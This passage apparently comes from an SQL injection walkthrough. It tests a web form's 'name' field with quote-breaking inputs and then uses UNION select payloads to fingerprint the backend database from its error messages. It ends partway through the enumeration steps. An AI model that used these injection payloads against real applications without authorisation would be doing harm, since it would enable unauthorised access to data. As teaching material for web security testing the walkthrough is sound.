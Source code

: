     <p>
    no such column: pepito
   </p>

We get an error message generated by the backend database, so we suspect that this field is vulnerable to SQL injection (SQLi).

Now we try SQLi against the field 'name'. This is what we see with several typical SQLi requests:

REQUEST 5 (name)

    Pink Floyd' or 1=1								

RESPONSE 5

    unrecognized token: "';"

REQUEST 6 (name)

    Pink Floyd' or 1=1;

RESPONSE 6
 
    You can only execute one statement at a time.

REQUEST 7 (name)

    Pink Floyd or '1'='1'

RESPONSE 7

    near "1": syntax error

This is a clear indication that 'name' is also vulnerable to SQLi.


## (2) IDENTIFICATION OF THE DBMS

Now we know that there is a backend database with two entry points (name, title) vulnerable to SQLi. The sentence build in the database once the form is submitted is:

    SELECT title FROM <table> WHERE <name>=name

We can inject 'UNION' statements in the 'name' field to try to identify the DBMS. There are typical requests in order to perform this enumeration:

REQUEST 8 (name) - try for MS-SQL

    Pink Floyd' union select 1,user_name(),3,4,5,6,7 --

RESPONSE 8 - it is not MS-SQL

    no such function: user_name

REQUEST 9 (name) - try for MySQL

    Pink Floyd' union select 1,user(),3,4,5,6,7	--

RESPONSE 9 - it is not MySQL

    no such function: user

REQUEST 10 (name) - Postgres SQL
